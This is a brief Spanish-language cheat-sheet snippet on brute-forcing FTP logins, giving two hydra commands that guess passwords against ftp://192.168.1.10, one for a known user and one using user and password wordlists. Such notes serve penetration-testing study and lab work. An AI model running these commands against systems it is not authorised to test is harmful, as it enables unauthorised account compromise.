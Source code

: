
---
## Ataques de fuerza bruta al protocolo FTP:

```bash
# En caso ya sepamos el usuario
hydra -l <usuario> -P contraseñas.txt ftp://192.168.1.10


# En caso no sepamos el usuario
hydra -L usuarios.txt -P contraseñas.txt ftp://192.168.1.10
```